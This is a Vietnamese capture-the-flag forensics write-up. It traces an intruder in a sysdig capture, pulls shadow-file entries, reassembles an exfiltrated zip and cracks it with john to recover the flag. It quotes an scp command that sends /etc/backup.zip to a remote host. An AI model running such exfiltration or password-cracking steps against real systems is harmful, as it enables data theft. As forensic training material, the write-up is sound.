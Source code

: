 # StratoMonk 
![image](images/img1.png)

> Tệp scap này được sysdig ghi lại các sự kiện hệ thống, cho nên có thể phân tích hoạt động của hệ thống.

## User

Dùng strings phát hiện ra các lần đăng nhập từ xa thông qua sshd của user: dark_monkey

![image](images/img2.png)

## Password

Vì là bản ghi lại hệ thống nên ta có thể xem được các lần đăng nhập hay mật khẩu được lưu tại file __/etc/shadow/__. Thực hiện grep theo user vừa tìm được

![image](images/img3.png)

Ở trên có cả 2 thông tin của file /etc/passwd và /etc/shadow, cần mật khẩu nên ta chỉ cần lưu thông tin của /etc/shadow

![image](images/img4.png)

## Sensitive Data

Vì tìm dữ liệu bị đánh cắp nên ta sẽ tìm theo SCP

> scp là viết tắt của Secure Copy Protocol, là một lệnh dùng để sao chép file giữa máy local và máy remote (hoặc giữa hai máy remote) qua giao thức SSH

![image](images/img5.png)

`scp /etc/backup.zip SpecialAgent@10.10.10.55:/tmp/backup.zip
`
Lệnh trên thực hiện gửi file /backup.zip đến địa chỉ 10.10.10.55 từ xa. Đây có thể là dấu hiệu của việc đánh cắp dữ liệu

Mình sử dụng công cụ mạnh hơn để phân tích sự kiện hệ thống là sysdig

``
sysdig -r stratomonk2.scap "evt.type == read and fd.name contains '/etc/backup.zip'"
``

- Giải thích:

| **Phần** | **Ý nghĩa** |
|----------|-------------|
| `sysdig` | Gọi công cụ sysdig để phân tích sự kiện hệ thống |
| `-r stratomonk2.scap` | Đọc file `stratomonk2.scap` (file chứa các sự kiện hệ thống đã được ghi lại trước đó) |
| `"evt.type == read and fd.name contains '/etc/backup.zip'"` | Lọc các sự kiện có kiểu là `read` (tức là process đang đọc dữ liệu từ đâu đó) và tên file được đọc có chứa chuỗi `/etc/backup.zip` |

![image](images/img6.png)

Có thể thấy một process scp có một yêu cầu read để đọc file backup.zip nhưng chỉ được trả về 256 byte, giờ muốn lấy được file zip hoàn chỉnh thì phải lọc theo lệnh read rồi ghép các phần data đó lại.

Sau một hồi thì mình cũng đã có được file  .zip

![image](images/img7.png)

Dùng john để crack 

![image](images/img8.png)

Dùng pass đó giải nén ta được phần 3 của flag

![image](images/img9.png)

```
Flag: ZiTF{dark_monkey:m0NK3y!_s3CR3t_N0t3s:=)}
```




